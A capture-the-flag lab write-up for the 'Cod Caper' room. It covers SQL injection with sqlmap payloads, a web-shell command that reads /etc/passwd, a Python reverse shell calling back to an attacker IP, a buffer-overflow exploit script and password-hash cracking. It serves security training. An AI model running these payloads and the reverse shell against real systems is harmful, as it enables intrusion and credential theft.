

# The Cod Caper

## Description

A guided room taking you through infiltrating and exploiting a Linux system.

## [Task 2] Host Enumeration

### #2.0 - Instructions

The first step is to see what ports and services are running on the target machine.

Recommended Tool - nmap:

Useful flags:

flag | description
---|---
-p | Used to specify which port to analyze, can also be used to specify a range of ports i.e `-p 1-1000`
-sC | Runs default scripts on the port, useful for doing basic analysis on the service running on a port
-A | Aggressive mode, go all out and try to get as much information as possible

### #2.1 - How many ports are open on the target machine?

~~~
$ sudo nmap -sS -sV -A 10.10.166.91
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-13 14:57 CEST
Nmap scan report for 10.10.166.91
Host is up (0.044s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
~~~

Answer: `2`

### #2.2 - What is the http-title of the web server?

*Hint: http-title is a default script?*

The solution is provided by the Nmap output above. We can also perform a request ourself:

~~~
$ curl -s 10.10.166.91 | grep title
    <title>Apache2 Ubuntu Default Page: It works</title>
~~~

Answer: `Apache2 Ubuntu Default Page: It works`

### #2.3 - What version is the ssh service?

Also provided by Nmap (see above): `OpenSSH 7.2p2 Ubuntu 4ubuntu2.8`

### #2.4 - What is the version of the web server?

Nmap reveals the version of Apache: `Apache/2.4.18`

##  [Task 3] Web Enumeration

### #3.0 - Instructions

Since the only services running are SSH and Apache, it is safe to assume that we should check out the web server first for possible vulnerabilities. One of the first things to do is to see what pages are available to access on the web server.

Recommended tool: gobuster

Useful flags:  

flag | description
---|---
-x | Used to specify file extensions i.e "php,txt,html"
--url | Used to specify which url to enumerate
--wordlist | Used to specify which wordlist that is appended on the url path i.e "http://url.com/word1", "http://url.com/word2", "http://url.com/word3.php"

Recommended wordlist: [big.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/big.txt)

### #3.1 - What is the name of the important file on the server?

I usually use dirsearch which I find faster as gobuster to find files. However, we are asked to use `gobuster` here, let's do that:

~~~
 gobuster dir -u http://10.10.166.91/ -x php,txt,html -w /data/src/wordlists/big.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.166.91/
[+] Threads:        10
[+] Wordlist:       /data/src/wordlists/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2020/05/13 15:12:46 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.html (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.html (Status: 403)
/administrator.php (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2020/05/13 15:19:55 Finished
===============================================================
~~~

We find an interesting page called `administrator.php`, which is an authentication page:

```html
$ curl -s http://10.10.166.91/administrator.php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Admin Login</title>
</head>
<body>

<h1>Administrator Login</h1>
<form action="administrator.php" method="POST">
    <p>Username:  </p><input type="text" name="username">
    <br>
    <br>
    <p>Password:  </p><input type="text" name="password">
    <br>
    <br>
    <button type="submit">Login</button>
</form>


</body>
</html>
```

Answer: `administrator.php`

## [Task 4] Web Exploitation

### #4.0 - Instructions

The admin page seems to give us a login form. In situations like this it is always worth it to check for "low-hanging fruit". In the case of login forms one of the first things to check for is SQL Injection.

Recommended Tool: sqlmap

Useful Flags:

flag | description
---|---
-u | Specifies which url to attack
--forms | Automatically selects parameters from <form> elements on the page
--dump | Used to retrieve data from the db once SQLI is found
-a | Grabs just about everything from the db

### #4.1 - What is the admin username?

Entering a simple quote in the `username` field and clicking on the `Login` button will return an error:
~~~
Try Again
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1 
~~~

This simple test confirms that the `username` field is vulnerable to an SQL injection. Let's use `sqlmap`:

~~~
 ./sqlmap.py -u http://10.10.166.91/administrator.php --forms --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.5.19#dev}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:30:50 /2020-05-13/

[15:30:50] [INFO] testing connection to the target URL
[15:30:50] [INFO] searching for forms
[#1] form:
POST http://10.10.166.91/administrator.php
POST data: username=&password=
do you want to test this form? [Y/n/q] 
> Y
Edit POST data [default: username=&password=] (Warning: blank fields detected): 
do you want to fill blank fields with random values? [Y/n] 
[15:31:17] [INFO] using '/home/unknown/.local/share/sqlmap/output/results-05132020_0331pm.csv' as the CSV results file in multiple targets mode
[15:31:17] [INFO] checking if the target is protected by some kind of WAF/IPS
[15:31:17] [INFO] testing if the target URL content is stable
[15:31:18] [INFO] target URL content is stable
[15:31:18] [INFO] testing if POST parameter 'username' is dynamic
[15:31:18] [WARNING] POST parameter 'username' does not appear to be dynamic
[15:31:18] [INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
[15:31:18] [INFO] heuristic (XSS) test shows that POST parameter 'username' might be vulnerable to cross-site scripting (XSS) attacks
[15:31:18] [INFO] testing for SQL injection on POST parameter 'username'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[15:31:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[15:31:36] [WARNING] reflective value(s) found and filtering out
[15:31:37] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[15:31:37] [INFO] testing 'Generic inline queries'
[15:31:37] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[15:31:39] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[15:31:42] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[15:31:44] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[15:31:45] [INFO] POST parameter 'username' appears to be 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause' injectable (with --not-string="Got")
[15:31:45] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[15:31:45] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[15:31:45] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[15:31:45] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[15:31:45] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[15:31:45] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[15:31:45] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[15:31:45] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[15:31:45] [INFO] POST parameter 'username' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[15:31:45] [INFO] testing 'MySQL inline queries'
[15:31:45] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[15:31:45] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[15:31:45] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[15:31:46] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[15:31:46] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[15:31:46] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[15:31:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[15:31:56] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[15:31:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[15:31:56] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[15:31:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[15:31:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[15:31:56] [INFO] target URL appears to have 2 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] 
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
[15:32:57] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[15:32:58] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
[15:32:59] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
[15:33:00] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
[15:33:01] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
[15:33:03] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
[15:33:04] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
[15:33:05] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[15:33:06] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[15:33:08] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 380 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=wbZX' RLIKE (SELECT (CASE WHEN (7089=7089) THEN 0x77625a58 ELSE 0x28 END))-- CFUA&password=

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=wbZX' OR (SELECT 9448 FROM(SELECT COUNT(*),CONCAT(0x71786b6271,(SELECT (ELT(9448=9448,1))),0x716b627a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- RtDZ&password=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=wbZX' AND (SELECT 4089 FROM (SELECT(SLEEP(5)))yEhM)-- dgUg&password=
---
do you want to exploit this SQL injection? [Y/n] 
[15:33:19] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0
[15:33:20] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[15:33:20] [INFO] fetching current database
[15:33:20] [INFO] retrieved: 'users'
[15:33:20] [INFO] fetching tables for database: 'users'
[15:33:20] [INFO] retrieved: 'users'
[15:33:20] [INFO] fetching columns for table 'users' in database 'users'
[15:33:20] [INFO] retrieved: 'username'
[15:33:20] [INFO] retrieved: 'varchar(100)'
[15:33:20] [INFO] retrieved: 'password'
[15:33:20] [INFO] retrieved: 'varchar(100)'
[15:33:21] [INFO] fetching entries for table 'users' in database 'users'
[15:33:21] [INFO] retrieved: 'secretpass'
[15:33:21] [INFO] retrieved: 'pingudad'
Database: users
Table: users
[1 entry]
+----------+------------+
| username | password   |
+----------+------------+
| pingudad | secretpass |
+----------+------------+

[15:33:21] [INFO] table 'users.users' dumped to CSV file '/home/unknown/.local/share/sqlmap/output/10.10.166.91/dump/users/users.csv'
[15:33:21] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/unknown/.local/share/sqlmap/output/results-05132020_0331pm.csv'

[*] ending @ 15:33:21 /2020-05-13/
~~~

sqlmap was able to do everything for us and dumped the users table automatically, revealing 1 username and password.

Answer: `pingudad`


### #4.2 - What is the admin password?

Revealed by `sqlmap` (see above).

Answer: `secretpass`


### #4.3 - How many forms of SQLI is the form vulnerable to?

Below is an extract of the above sqlmap output. It shows the 3 possible injections.

~~~
...
[15:31:45] [INFO] POST parameter 'username' appears to be 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause' injectable (with --not-string="Got")
...
[15:31:45] [INFO] POST parameter 'username' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
...
[15:31:56] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
...
~~~

Answer: `3`.

## [Task 5] Command Execution

### #5.0 - Instructions

It seems we have gained the ability to run commands! Since this is my old PC, I should still have a user account! Let's run a few test commands, and then try to gain access!

**Method 1: nc Reverse shell:**

This machine has been outfitted with `nc`, a tool that allows you to make and receive connections and send data. It is one of the most popular tools to get a reverse shell. Some great places to find reverse shell payloads are [highoncoffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/) and [Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

After this you will have to do some additional enumeration to find pingu's ssh key, or hidden password.

**Method 2: Hidden passwords:**

Assuming my father hasn't modified since he took over my old PC, I should still have my hidden password stored somewhere,I don't recall though so you'll have to find it! `find` is the recommended tool here as it allows you to search for which files a user specifically owns.

### #5.1 - How many files are in the current directory?

~~~
$ curl -s --data-urlencode "cmd=ls -l" -X POST http://10.10.166.91/2591c98b70119fe624898b1e424b5e91.php | grep -v -e "^$" | grep -v "<"
total 20
-rw-rw-r-- 1 root root   378 Jan 15 21:19 2591c98b70119fe624898b1e424b5e91.php
-rw-r--r-- 1 root root  1282 Jan 15 21:30 administrator.php
-rw-r--r-- 1 root root 10918 Jan 15 20:20 index.html
~~~

there are `3` files in the current directory.

### #5.2 - Do I still have an account

*Hint: Check /etc/passwd*

So now, we can execute commands and we could answer all the questions using the web interface or `curl` as we did previously. However, this is not very convenient, and the ultimate objective is to get a reverse shell.

Let's try with python. First open a listener on your local machine:

~~~
$ rlwrap nc -nlvp 1234
~~~

Now send the following command via the web interface (adapt with your IP first):

~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.**.**",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

We now have a reverse shell. Let's check the `/etc/passwd` file:

~~~
$ curl -s --data-urlencode "cmd=cat /etc/passwd" -X POST http://10.10.166.91/2591c98b70119fe624898b1e424b5e91.php | grep -v -e "^$" | grep -v "<"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
papa:x:1000:1000:qaa:/home/papa:/bin/bash
mysql:x:108:116:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
pingu:x:1002:1002::/home/pingu:/bin/bash
~~~

Yes, it seems we still have an account, with user `pingu`. Notice though that we are currently connected as `www-data` in our reverse shell.

### #5.3 - What is my ssh password?

The instructions were referring to the `find` command to list files owned by a given user. Let's check all the files we own:

~~~
$ find / -user pingu -print 2>/dev/null
/home/pingu
/home/pingu/.bash_history
/home/pingu/.cache
/home/pingu/.cache/motd.legal-displayed
/home/pingu/.ssh
/home/pingu/.ssh/id_rsa
/home/pingu/.ssh/id_rsa.pub
/home/pingu/.nano
/home/pingu/.gdb_history
/home/pingu/.pwntools-cache-2.7
/home/pingu/.pwntools-cache-2.7/update
~~~

In our `home`, we can find a `.ssh` directory that contains our private SSH key. However, we don't have the password.

Let's see if we can find any file that would contain `pass*` in the name:

~~~
$ find / -name pass* 2>/dev/null
...[SNIP]...
/var/backups/passwd.bak
/var/hidden/pass
...[SNIP]...
~~~

The password was stored in `/var/hidden/pass`:
~~~
$ cat /var/hidden/pass
pinguapingu
~~~

Now we can connect as pingu with SSH and we no longer need the reverse shell.
~~~
sshpass -p "pinguapingu" ssh pingu@10.10.166.91
~~~

Answer: `pinguapingu`

## [Task 6] LinEnum

## 6.0 - Instructions

LinEnum is a bash script that searches for possible ways to priv esc. It is incredibly popular due to the sheer amount of possible methods that it checks for, and often times Linenum is one of the first things to try when you get shell access.

Methods to get Linenum on the system

**Method 1: SCP**

Since you have ssh access on the machine you can use SCP to copy files over. In the case of Linenum you would run `scp {path to linenum} {user}@{host}:{path}. Example: scp /opt/LinEnum.sh pingu@10.10.10.10:/tmp` would put LinEnum in `/tmp`.

**Method 2: SimpleHTTPServer**

SimpleHTTPServer is a module that hosts a basic webserver on your host machine. Assuming the machine you compromised has a way to remotely download files, you can host LinEnum and download it.

Note: There are numerous ways to do this and the two listed above are just my personal favorites.

Once You have LinEnum on the system, its as simple as running it and looking at the output above once it finishes.

## #6.1 - What is the interesting path of the interesting suid file

Let's first download linEnum: https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh.

Now, let's send it to the remote server:

~~~
sshpass -p "pinguapingu" scp LinEnum.sh pingu@10.10.166.91:/tmp
~~~

And on the server, let's start the script:

~~~
pingu@ubuntu:~$ cd /tmp/
pingu@ubuntu:/tmp$ chmod +x LinEnum.sh 
pingu@ubuntu:/tmp$ ./LinEnum.sh 
~~~

The full output is available [here](files/linenum.txt). The below extract is only reporting SUID files:

~~~
[-] SUID files:
-r-sr-xr-x 1 root papa 7516 Jan 16 21:07 /opt/secret/root
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 10624 May  8  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
~~~

Obviously what is interesting here is `/opt/secret/root`. This file is an executable:

~~~
$ file /opt/secret/root
/opt/secret/root: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=af41c72a4c8f1a4d720315cdafa47536e92657b2, not stripped
~~~

Answer: `/opt/secret/root`.

##  [Task 7] pwndbg

### #7.0 - Instructions

Luckily for us I was able to snag a copy of the source code from my dad's flash drive

```c
#include "unistd.h"
#include "stdio.h"
#include "stdlib.h"

void shell(){
	setuid(1000);
	setgid(1000);
	system("cat /var/backups/shadow.bak");
}

void get_input(){
	char buffer[32];
	scanf("%s",buffer);
}

int main(){
	get_input();
}
```

The SUID file seems to expect 32 characters of input, and then immediately exits. This seems to warrant further investigation. Luckily I was practicing binary exploitation back when I was using that PC, so I have tools preinstalled to examine. One of those tools is pwndbg, a plugin for GDB which allows you to better examine binary files.

Run `gdb /opt/secret/root` and you should see a screen similar to this


This means that pwndbg has successfully been initialized. The next step is to test if anything happens when you send more then 32 characters. To do this type `r < <(cyclic 50)`, that command runs the program and provides 50 characters worth of "cyclic" input.

Cyclic input goes like this: "aaaaaaaabaaacaaadaaaeaaaf" etc. Because it's in this "cyclic" format, it allows us to better understand the control we have over certain registers, for reasons you are about to see.

Once you run that command you should see something similar to this screen



Now this is where some knowledge of assembly helps. It seems that in this case we're able to overwrite EIP, which is known as the instruction pointer. The instruction pointer tells the program which bit of memory to execute next, which in an ideal case would have the program run normally. However, since we're able to overwrite it, we can theoretically execute any part of the program at any time.

Recall the shell function from the source code, if we can overwrite EIP to point to the shell function, we can cause it to execute. This is also where the benefits of cyclic input show themselves. Recall that cyclic input goes in 4 character/byte sequences, meaning we're able to calculate exactly how many characters we need to provide before we can overwrite EIP.

Luckily cyclic provides this functionality with the -l flag, running cyclic -l {fault address} will tell us exactly how many characters we need to provide we can overwrite EIP.

Running `cyclic -l 0x6161616c` outputs 44, meaning we can overwrite EIP once we provide 44 characters of input.

That's all we needed for pre-explotation!

### #7.1 - Read the above :)

As you can see on the source code, the `main` function will call the `get_input()` function, which will set a buffer of 32 bytes, and will save the user input in that buffer. Obviously, we are interested in the `shell()` function which sets the root privileges and will output the content of the `/var/backups/shadow.bak` file.

The problem with this program is that the `shell()` function will never be called. However, an overflow of the user input would allow to jump to other portions of the program, and hence, call the function.

##  [Task 8] Binary-Exploitaion: Manually

Previously we figured out that we need to provide 44 characters of input, and then we can execute whatever part of the program we want. Now the next step is to find out exactly where the shell function is in memory so we know what to set EIP to. GDB supports this as well with the disassemble command. Type disassemble shell, and this should pop up.


What we're interested in is the hex memory addresses. So from what we know all we have to do is provide 44 characters, and then "0x080484cb" and the shell function should execute, let's try it!

Note: Modern CPU architectures are "little endian" meaning bytes are backwards. For example "0x080484cb" would become "cb840408"

We can use python to do this, as it allows a nice way of converting.

**Method 1 - Manual conversion:**

`python -c 'print "A"*44 + "\xcb\x84\x04\x08"'` will output the payload we want, but it requires manually converting to little endian

**Method 2 - Struct:**

`python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'`

It requires importing a module but struct.pack allows us to automatically convert memory to little endian.

We print 44 random characters(in this case A) and then our memory address in little endian, and shell should execute. This can be tested by piping the output in to the binary

`python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root` should provide you with this output.

We did it!

## [Task 9] Binary Exploitation: The pwntools way

Pwntools is a python library dedicated to making everything we just did in the last task much simpler. However, since it is a library, it requires python knowledge to use to it's full potential, and as such everything in this task will be done using a python script.

We start off the script with:

``` python
from pwn import *
proc = process('/opt/secret/root')
```

This imports all the utilities from the pwntools library so we can use them in our script, and then creates a process that we can interact with using pwntools functions.

We know that we need the memory address of the shell function, and pwntools provides a way to obtain that with ELF().

ELF allows us to get various memory addresses of important points in our binary, including the memory address of the shell function.

With the ELF addition our script becomes

``` python
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
```

shell_func holds the memory address of our shell function. Now we need a way to form the payload, luckily pwntools has that to with fit().

fit allows us to form a payload by combining characters and our memory address. To send the payload we can use a method in our `proc` variable, `proc.sendline()`, which just sends whatever data we want to the binary. Finally we can use `proc.interactive()`, to view the full output of the process.

With all that our final exploit script becomes:

``` python
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
payload = fit({
44: shell_func # this adds the value of shell_func after 44 characters
})
proc.sendline(payload)
proc.interactive()
```

Save that to a .py file and run it, and you should get this output:


We did it again!

##  [Task 10] Finishing the job

Now that we have the password hashes, we can crack them and get the root password! Recall from the previous outputs that our root password hash is `$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.`.

Luckily hashcat supports cracking linux password hashes. You can find a list of hashcat modes [here](https://hashcat.net/wiki/doku.php?id=example_hashes) and rockyou.txt (a popular wordlist) [here](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) (if you don't already have it on your system)

Recommended tool - Hashcat:

Usage: `hashcat {flags} {hashfile} {wordlist}`

Useful flags:

flag | description
---|---
-a | Specify attack mode,attack modes can be found in the man page.
-m | Specifies which mode to use, refer back to the list of modes

## #10.1 - What is the root password!

Save the hash to a file (e.g. `shadow.hash`):

~~~
$ cat shadow.hash 
$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.
~~~

* Cracking with hashcat:

~~~
$ hashcat -m 1800 -a 0 shadow.hash /data/src/wordlists/rockyou.txt
~~~

* Cracking with john:

~~~
$ ./john shadow.hash --wordlist=/data/src/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
love2fish        (?)
1g 0:00:00:56 DONE (2020-05-13 20:28) 0.01784g/s 4293p/s 4293c/s 4293C/s lucinha..lailaa
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~

Answer: `love2fish`

Further reading:
* http://docs.pwntools.com/en/stable/
* https://browserpwndbg.readthedocs.io/en/docs/
